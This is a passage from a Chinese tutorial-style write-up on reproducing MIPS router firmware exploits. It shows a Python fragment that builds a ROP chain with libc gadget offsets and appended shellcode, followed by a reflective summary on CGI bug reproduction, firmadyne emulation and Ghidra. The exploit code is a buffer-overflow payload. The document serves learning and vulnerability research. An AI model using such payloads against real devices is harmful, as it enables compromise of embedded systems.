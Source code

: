 ```
    data+="aaaa" #s6
    data+="aaaa" #s7
    data+="aaaa" #fp
    data+=p32(gadget1+libc_base) #ra
    data+="b"*0x18
    data+="bbbb" #s0
    data+=p32(gadget4+libc_base) #s1
    data+="bbbb" #s2
    data+=p32(gadget3+libc_base) #ra
    data+="c"*0x18
    data+=shellcode
    return data
```

但是我们要要返回的地址是192.168.0.2，其中包含了`x00`，所以说没有复现成功，但是应该也是可以的。这里突然有一个疑惑，怎么能修改firmadyne模拟时对于IP地址的设定？



## 总结

终于到了总结的部分啦，这次主要和上次的不同是，1、增加了对cgi程序漏洞的复现，主要是设置环境变量，实际上他们获取参数的过程也是从环境变量中获取；2、实现了用firmadyne进行模拟复现的情况，并且成功利用；3、增加了ghidra的使用，这个对于mips来说还真的挺舒服的。原本计划增加一些命令执行的内容，以及自己的一些关于命令执行的理解，就等下一次的入门到入门吧。ps：希望大佬们能对我文中的疑惑进行解答，谢谢。
